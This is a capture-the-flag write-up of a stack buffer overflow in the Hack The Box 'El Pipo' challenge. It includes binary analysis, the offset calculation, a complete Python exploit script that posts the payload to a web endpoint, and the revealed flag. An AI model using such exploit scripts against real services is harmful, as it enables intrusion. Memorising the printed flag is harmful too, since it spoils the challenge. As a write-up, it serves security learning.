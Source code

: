 ```yaml
---
title: "El Pipo 👻 - Buffer Overflow Exploit Writeup"
tags: [HTB, binary exploitation, stack overflow, pwn]
---
```


# El Pipo 👻

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![Challenge](https://img.shields.io/badge/Challenge-red)

> An ancient spirit, El Pipo, has taken control of this place. Face your fears and try to drive it away with your most vicious scream!

El Pipo, a not-so-scary ghost, dares you to make him scream. Can you break the silence and reveal the hidden flag?

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Finding the Offset 🎯](#finding-the-offset-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We begin with a `checksec` on the binary:

![Checksec](https://github.com/user-attachments/assets/809aea46-ce9d-456a-a32d-585c14693ae2)

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

## Program Behavior 📟

When we run the binary, it reads input via `read()` and checks a variable:

![Ghidra main](https://github.com/user-attachments/assets/18aaa356-87c8-4ab0-a1cf-a0f73f8523f8)

```c
char local_9 = 1;
read(0, &buffer, 0x40);
if (local_9 == 1) {
    puts("Not scary enough.. Boo! :(");
} else {
    read_flag();
}
```

The flag is only printed if `local_9` is overwritten with any value ≠ 1.

## Reverse Engineering 🔍

In Ghidra or GDB disassembly, we observe:
- The buffer starts at `[rbp - 0x30]`
- `local_9` is located at `[rbp - 0x1]`
- `read()` reads **64 bytes** into a **48-byte** buffer

This allows us to overflow and overwrite `local_9`.

## Finding the Offset 🎯

We need to find the exact number of bytes required to reach and overwrite `local_9`.

### Approach 1: Manual Stack Analysis

From disassembly:
- Buffer starts at `[rbp - 0x30]`
- `local_9` is at `[rbp - 0x1]`

![GDB debug](https://github.com/user-attachments/assets/d0bd9343-a562-470e-9828-601644650e17)

![Distance](https://github.com/user-attachments/assets/34fad339-5dd4-4601-a508-9f21b083259a)

Distance = `0x30 - 0x1 = 0x2f = 47` bytes  
✅ **We must write 47 bytes to reach `local_9`**

### Approach 2: Using `cyclic` + pwndbg

We generate a unique cyclic pattern of 100 bytes and run the binary with it.

![Cyclic generation](https://github.com/user-attachments/assets/0be47dae-983a-4fee-82fa-160e0147c3ca)

Upon crash, we check the stack and use:

![RBP](https://github.com/user-attachments/assets/2a6cc1fd-decc-48c3-b1bf-cb65a9e85e66)

![Distance cyclic](https://github.com/user-attachments/assets/bf07a2bd-b46a-43ad-b977-99229546f73b)

```gdb
cyclic -l gaaaaaaa
Found at offset 48
```

Since the last value is written at offset 47, we know the **overwrite occurs at byte 47**.

✅ Final conclusion: 47 bytes are required to reach and overwrite `local_9`.

## Exploitation Strategy 💣

Our goal is to overwrite `local_9` with a value ≠ 1.

The value `'A'` (0x41) works perfectly.

Payload:
```python
offset = 47
payload = b"A" * offset + b"A"
```

This sets `local_9` to 0x41, bypassing the check.

But in this challenge, we don't directly interact with the binary with netcat; This is on a website:

![Website](https://github.com/user-attachments/assets/8ec42afd-90af-473d-b321-47a41df070d9)

## Full Exploit Script 🧨

```python
#!/usr/bin/env python3
import requests
import argparse

def build_payload():
    # We need 47 bytes to reach local_9
    offset = 47
    return "A" * offset + "A"

def send_payload(ip, port, payload):
    url = f"http://{ip}:{port}/process"
    data = { "userInput": payload }
    response = requests.post(url, json=data)
    return response

def main():
    parser = argparse.ArgumentParser(description="Exploit for El Pipo - HTB Web + Pwn challenge")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", help="Target port")
    args = parser.parse_args()

    payload = build_payload()
    response = send_payload(args.ip, args.port, payload)

    print("[+] Sent payload:", payload)
    print("[+] Server response:")
    print(response.text)

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

![Flag](https://github.com/user-attachments/assets/d2e8190f-fea7-4bd3-b5bc-987e1dcd784c)

```
[+] Server response:
HTB{3l_p1p0v3rfl0w_w1th_w3b}
```

We successfully reached and triggered `read_flag()`.

## Conclusion 🧾

This was a classic stack-based buffer overflow challenge:

- We used stack layout and offset calculation to find the exact overwrite point
- Exploitation succeeded by crafting a precise 47-byte payload
- A good demonstration of how buffer overflows can manipulate control flow, even without touching return addresses

🔙 [Back to Challenge Writeups](../../)
